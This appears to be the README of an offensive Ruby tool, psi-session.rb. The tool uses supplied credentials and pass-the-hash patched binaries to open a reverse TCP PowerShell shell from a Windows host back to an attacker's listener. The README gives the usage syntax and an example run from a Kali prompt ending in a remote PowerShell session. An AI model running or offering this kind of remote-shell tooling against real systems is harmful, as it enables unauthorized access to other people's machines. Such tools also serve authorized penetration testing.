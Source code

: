 # psi-session.rb
Tool designed to deliver you a reverse tcp powershell prompt directly to your linux commandline.
Execution is currently done via pth patched binaries for the time being.

Syntax: ruby psi-session.rb <DOMAIN/username> <password> <rhost> <lhost> <lport>

Example:
root@kali:~/projects/psi-session# ruby psi-session.rb bob n0passw0rd1 10.0.0.12 10.0.0.13 5000
Windows PowerShell running as user bob on CLA-WIN7TOOLS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
cla-win7tools\bob
PS C:\Windows\system32> 
